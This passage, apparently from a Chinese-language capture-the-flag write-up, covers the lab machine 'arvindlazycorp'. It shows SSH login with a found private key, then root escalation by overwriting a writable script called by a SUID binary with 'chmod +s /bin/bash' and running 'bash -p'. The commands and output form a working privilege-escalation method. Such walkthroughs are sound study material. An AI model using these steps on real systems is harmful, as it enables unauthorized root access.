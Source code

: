 利用这个私钥，可以直接以 `arvind` 用户的身份登录SSH。

```shell
www-data@arvindlazycorp:/home/arvind/.ssh$ ssh arvind@127.0.0.1 -i id_rsa
...
Welcome to Ubuntu 20.04.6 LTS ...
arvind@arvindlazycorp:~$ id
uid=1000(arvind) gid=1000(arvind) groups=1000(arvind),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),117(lxd)
```

成功切换到 `arvind` 用户。

## **垂直提权：arvind -> root**

在 `arvind` 的家目录中，发现了一个具有SUID权限的可执行文件 `reset`。

```shell
arvind@arvindlazycorp:~$ ls -al
...
-rwsr-xr-x 1 root   root   16744 Jul 16 12:22 reset
...
```

SUID是一种特殊的文件权限，它允许用户在执行该文件时，临时获得文件所有者（在这里是root）的权限。

使用 `strings` 命令分析该文件，查找其功能。

```shell
arvind@arvindlazycorp:~$ strings ./reset
...
/usr/bin/reset_site.sh
...
```

分析结果显示，该程序会调用 `/usr/bin/reset_site.sh` 脚本。检查该脚本的权限。

```shell
arvind@arvindlazycorp:~$ ls -la /usr/bin/reset_site.sh
-rwxrwxr-x 1 root arvind 254 Jul  9 10:26 /usr/bin/reset_site.sh
```

我们发现，当前用户 `arvind` 对这个脚本有写入权限。这是一个典型的SUID提权漏洞。我们可以通过修改该脚本内容，让 `reset` 程序在以root权限执行时，运行我们自定义的命令。

1.  将提权命令写入脚本，这里我们将为 `/bin/bash` 添加SUID位。
    ```shell
    arvind@arvindlazycorp:~$ echo 'chmod +s /bin/bash' > /usr/bin/reset_site.sh
    ```
2.  执行SUID程序 `reset` 来触发我们写入的恶意命令。
    ```shell
    arvind@arvindlazycorp:~$ ./reset
    ```
3.  检查 `/bin/bash` 的权限，发现已成功设置SUID位。
    ```shell
    arvind@arvindlazycorp:~$ ls -al /bin/bash
    -rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
    ```
4.  使用 `-p` 参数运行 `bash`，以保留SUID赋予的有效用户ID（euid），从而获得root权限的shell。
    ```shell
    arvind@arvindlazycorp:~$ bash -p
    bash-5.0# id
    uid=1000(arvind) gid=1000(arvind) euid=0(root) egid=0(root) groups=...
    ```

